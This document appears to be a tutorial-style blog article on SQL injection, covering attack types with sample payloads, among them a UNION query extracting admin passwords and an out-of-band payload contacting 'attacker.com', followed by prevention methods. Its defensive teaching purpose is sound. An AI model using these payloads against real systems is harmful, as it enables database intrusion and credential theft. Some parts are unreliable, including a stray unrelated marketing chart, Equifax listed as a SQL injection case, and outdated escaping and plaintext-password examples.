 +++
title = "SQL Injection"
date = 2025-11-01
updated = 2025-11-01
description = "SQL injection is a code injection technique that might destroy your database. It is one of the most common web hacking techniques."
tags = ["security", "sql", "injection", "database", "attack"]
+++

{% mermaid() %}
quadrantChart
    title Reach and engagement of campaigns
    x-axis Low Reach --> High Reach
    y-axis Low Engagement --> High Engagement
    quadrant-1 We should expand
    quadrant-2 Need to promote
    quadrant-3 Re-evaluate
    quadrant-4 May be improved
    Campaign A: [0.3, 0.6]
    Campaign B: [0.45, 0.23]
    Campaign C: [0.57, 0.69]
    Campaign D: [0.78, 0.34]
    Campaign E: [0.40, 0.34]
    Campaign F: [0.35, 0.78]
{% end %}

SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution.

## How SQL Injection Works

SQL injection occurs when an application incorporates user input into SQL queries without proper validation or parameterization.

### Example of Vulnerable Code

```php
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";
```

### Attack Example

An attacker could input:
```
admin' OR '1'='1
```

Resulting in:
```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1'
```

## Types of SQL Injection

### In-band SQL Injection

Direct communication channel for attack and result gathering:

#### Error-based SQL Injection
Exploits database error messages to gather information:

```sql
' AND (SELECT COUNT(*) FROM information_schema.tables) --
```

#### Union-based SQL Injection
Uses UNION SQL operator to combine results:

```sql
' UNION SELECT username, password FROM admin_users --
```

### Inferential SQL Injection (Blind)

No direct data transfer, attacker reconstructs information:

#### Boolean-based Blind
Relies on TRUE/FALSE responses:

```sql
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' --
```

#### Time-based Blind
Uses database delays to infer information:

```sql
'; IF (1=1) WAITFOR DELAY '00:00:10' --
```

### Out-of-band SQL Injection

Uses different communication channels (DNS, HTTP):

```sql
'; EXEC master.dbo.xp_dirtree '\\attacker.com\share' --
```

## Detection Techniques

### Manual Testing

Common test payloads:

```
'
"
`
')
")
`)
' OR 1=1 --
" OR 1=1 --
```

### Automated Scanning

Tools for SQL injection detection:

- **SQLMap** - Automatic SQL injection exploitation
- **Burp Suite** - Web application security scanner
- **OWASP ZAP** - Web application security scanner
- **Nessus** - Vulnerability scanner

## Prevention Methods

### Parameterized Queries (Prepared Statements)

The most effective defense:

```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
```

```java
String query = "SELECT * FROM users WHERE username = ? AND password = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, username);
pstmt.setString(2, password);
```

### Stored Procedures

When implemented correctly:

```sql
CREATE PROCEDURE GetUser
    @Username NVARCHAR(50),
    @Password NVARCHAR(50)
AS
BEGIN
    SELECT * FROM Users
    WHERE Username = @Username AND Password = @Password
END
```

### Input Validation

Whitelist validation:

```python
import re

def validate_username(username):
    pattern = re.compile("^[a-zA-Z0-9_]{3,20}$")
    return pattern.match(username) is not None
```

### Escaping User Input

Last resort method:

```php
$username = mysql_real_escape_string($_POST['username']);
```

### Least Privilege Principle

Database user permissions:

- Don't use administrative accounts for application connections
- Grant only necessary permissions
- Use separate accounts for different application components
- Regularly audit database permissions

## Advanced Prevention

### Web Application Firewalls (WAF)

Filter malicious requests:

```nginx
# ModSecurity rule example
SecRule ARGS "@detectSQLi" \
    "id:1001,\
    phase:2,\
    block,\
    msg:'SQL Injection Attack Detected',\
    logdata:'Matched Data: %{MATCHED_VAR} found within %{MATCHED_VAR_NAME}'"
```

### Database Activity Monitoring

Monitor suspicious database activities:

- Unusual query patterns
- Access to sensitive tables
- Failed authentication attempts
- Privilege escalation attempts

## Testing and Verification

### Code Review Checklist

- [ ] All SQL queries use parameterized statements
- [ ] Input validation is implemented
- [ ] Database errors are handled properly
- [ ] Least privilege principle is applied
- [ ] Logging and monitoring are in place

### Penetration Testing

Regular security assessments:

1. **Black box testing** - No knowledge of application internals
2. **White box testing** - Full access to source code and documentation
3. **Gray box testing** - Limited knowledge of application internals

## Real-world Examples

### Notable SQL Injection Attacks

- **2008 - Heartland Payment Systems**: 134 million credit cards compromised
- **2011 - Sony Pictures**: Personal information of 1 million users exposed
- **2012 - Yahoo**: 450,000 passwords stolen from Yahoo Voices
- **2017 - Equifax**: 147 million consumers affected (initially reported as Apache Struts vulnerability)

## Conclusion

SQL injection remains one of the most critical web application vulnerabilities. Prevention requires a multi-layered approach combining secure coding practices, proper input validation, and ongoing security testing.

